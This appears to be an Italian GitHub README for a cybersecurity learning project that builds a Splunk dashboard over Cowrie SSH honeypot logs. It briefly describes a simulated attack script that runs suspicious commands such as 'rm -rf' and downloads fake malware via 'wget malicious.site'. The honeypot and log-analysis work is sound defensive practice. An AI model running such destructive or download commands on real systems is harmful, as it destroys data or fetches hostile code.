




# Cowrie-honeypot-analysis

Splunk Dashboard

Questo progetto fa parte del mio percorso di formazione in **cybersecurity**, focalizzato sull’analisi di attacchi simulati tramite honeypot.

**Obiettivo**
Creare una dashboard Splunk per analizzare i log generati dal honeypot Cowrie, simulando attacchi realistici al fine di:
- Allenarmi all'analisi di log
- Comprendere le tecniche usate dagli attaccanti
- Costruzione di un portfolio adatto alla cyber sicurezza.

**Tecnologie utilizzate**
- Kali Linux (VirtualBox)
- Cowrie (SSH Honeypot)
- Splunk Enterprise
- GitHub
- Bash scripting

**Attacchi simulati**
Attraverso lo script 'cowrie_attack.sh' ho simulato un attaccante che:
- Effettua login con credenziali valide
- Esegue comandi sospetti ('whoami', 'rm -rf', ecc)
- Scarica un finto malware ('wget malicious.site')
- Lancia uno script potenzialmente pericoloso

Queste azioni sono tutte registrate nei log JSON di Cowrie e **analizzate con Splunk**.

**Dashboard Cowrie**

La dashboard contiene:

**Pannello**                         **Descrizione**                                      

Eventi per tipo (`eventid`)  - - Visualizza il volume di ogni tipologia di log 

 Comandi eseguiti         - - Mostra i comandi digitati dall’attaccante

 File scaricati           - - Elenco degli URL da cui sono stati scaricati file

 Login riusciti           - - IP e credenziali utilizzate

 Timeline attacchi        - - Attività visualizzata nel tempo

 IP attaccanti più attivi - - Gli IP che generano più eventi

